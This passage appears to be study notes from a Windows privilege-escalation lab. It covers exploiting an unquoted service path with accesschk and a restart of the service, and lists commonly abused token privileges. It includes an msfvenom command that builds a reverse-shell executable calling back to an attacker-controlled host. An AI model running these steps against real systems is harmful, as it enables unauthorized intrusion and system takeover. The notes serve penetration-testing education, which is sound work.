 Once we have confirmed that the binary path is unquoted, we will need to check our privileges on folders in the path. Our goal is to find a folder that is writable by our current user. We can use accesschk.exe with the command below to check for our privileges.

```bash
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
```
The output will list user groups with read (R) and write (W) privileges on the "Program Files" folder.

Generate payload using msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe
```

Once you have generated and moved the file to the correct location on the target machine, you will need to restart the vulnerable service.

```bash
sc start unquotedsvc
```

--------------------------------------------------------------

**Tokens**

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions.
Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe

This access token consists of:

1.  user SIDs(security identifier)
2.  group SIDs
3.  privileges

There are two types of access tokens:
1.  primary access tokens: those associated with a user account that are generated on log on
2.  impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

The privileges of an account allow a user to carry out particular actions. Here are the most commonly abused privileges:
1.  SeImpersonatePrivilege
2.  SeAssignPrimaryPrivilege
3.  SeTcbPrivilege
4.  SeBackupPrivilege
5.  SeRestorePrivilege
6.  SeCreateTokenPrivilege
7.  SeLoadDriverPrivilege
8.  SeTakeOwnershipPrivilege
9.  SeDebugPrivilege

View all the privileges using whoami /priv
```bash
whoami /priv
```
